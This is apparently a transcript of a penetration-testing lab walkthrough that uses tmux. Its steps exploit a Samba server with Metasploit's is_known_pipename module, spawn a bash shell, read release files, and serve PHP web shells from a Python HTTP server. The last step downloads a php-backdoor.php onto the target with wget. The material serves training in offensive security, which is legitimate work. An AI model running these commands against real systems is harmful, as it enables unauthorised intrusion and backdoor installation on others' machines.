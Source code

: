 We're currently within the terminal session 0. 

session 0

```
msfconsole
setg RHOSTS 192.196.45.3
```

To scroll through a list with tmux, you can't use your mouse scroll wheel. You have to use the `Ctrl+B` option. And then you can utilize your `PageUp` and `PageDown` keys on your keyboard.

That will allow us to load a custom Linux shared object and then execute it in order to receive a meterpreter session.

Once you're done scrolling, hit the `Q` key on your keyboard, and that will allow you to type into your terminal.

```
use exploit/linux/samba/is_known_pipename
show options
exploit
```

Open up a bash session here. Because it's opened up the command shell session, and it is non-interactive.

```
/bin/bash -i
id
cat /etc/*release
pwd
```

We're currently within the `/tmp` directory. And we are going to be transferring our files to this directory.

How do we download a file onto the target system without meterpreter? This is where the tmux comes into play. We're going to open up a new terminal session. So we just type in `Ctrl+B`, so I'll just say `Ctrl+B+C`. And that will open up a new terminal. And our previous session is still running, it's in terminal 0.

Within this terminal, this is where we'll be setting up our web server with Python.

session 1

```
cd /usr/share/webshells/php
ls
python3 -m http.server 80
```

We'll navigate to the terminal session 0, and we can do that by saying `Ctrl+B+0`.

session 0

How do we transfer the file or how do we download it? We can download a file onto a Linux target through the use of the wget utility.

```
wget http://192.196.45.2/php-backdoor.php
```

